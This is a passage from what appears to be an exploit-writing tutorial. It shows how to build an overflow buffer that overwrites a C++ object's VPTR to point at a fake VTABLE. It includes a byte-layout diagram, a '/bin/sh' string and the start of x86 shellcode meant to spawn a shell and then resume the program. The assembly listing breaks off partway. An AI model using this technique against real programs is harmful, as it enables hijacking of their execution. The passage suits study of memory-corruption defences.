 While applying all these important points, we are going to try to construct a 
buffer according to the following diagram:

```
 +------------------------------------<-(1)---------------------------------+
 |   our VTABLE                                                             |
=+===================                                                     ==+=
9999TT999999.... MMMM SSSS0000/bin/shAAA.... A BBB... Bnewstring99999.... VVVVL
                 ==+= ==+=    |      |       | ========
                   |    |     |      |       |      \
                   |    +-->--+      |       |        \(a copy on the stack)
   |                 |       |      ========
   +---(2)-->--------+       |      BBB... B
                                             |      |      |
                                             +-(3)->+      +--> old method
```

Where: 9 represent NOP bytes (90h).
       T represents bytes forming the word of the offset who will be added to
        the pointer on the stack (strange handling ;).
       M represents the address in our buffer of the beginning of our
        shellcode.
       S represents the address in our buffer of the "/bin/sh" string.
       0 represented 90h bytes, who will be initialized to 00h at run time 
        (necessary for exec ()).
       /bin/sh represents the "/bin/sh" string, without any 00h termination
        byte.
       A represents a byte of our shellcode (principally to run the shell, then
        to copy the stackcode on the stack and to run it).
       B represents a byte of our stackcode (principally to reset our buffer
        with a new string, and to run the original method to continue the
        execution of the original program.
       newstring represents the "newstring" string, that will be recopied in
        the buffer after execution of the shell, to continue the execution.
       V represents a byte of the VPTR, that must point back to the beginning
        of our buffer (to our VTABLE).
       L represents the byte that will be copy after the VPTR, and that will
        be a 0hh byte.

In a more detailed manner, here are the content of our shellcode and
stackcode:


```
pushl  %ebp                             //save existing EBP
movl   %esp,%ebp                        //stack frame creation
xorl   %eax,%eax                        //EAX=0
movb   $0x31,%al                        //EAX=$StackCodeSize (size of the code
                                        // who will be copied to the stack)
subl   %eax,%esp                        //creation of a local variable to
                                        // contain our stackcode
pushl  %edi
pushl  %esi
pushl  %edx
pushl  %ecx
pushl  %ebx                             //save registers
pushf                                   //save flags
cld                                     //direction flag=incrementation
xorl   %eax,%eax                        //EAX=0
movw   $0x101,%ax                       //EAX=$AddThis (value added for
                                        // calculating This on the stack)
subl   %eax,0x8(%ebp)                   //we substract this value from the
                                        // current This value on the stack, to
                                        // restore the original This.
xorl   %eax,%eax                        //EAX=0
movl   $0x804a874,%edi                  //EDI=$BufferAddress+$NullOffset
```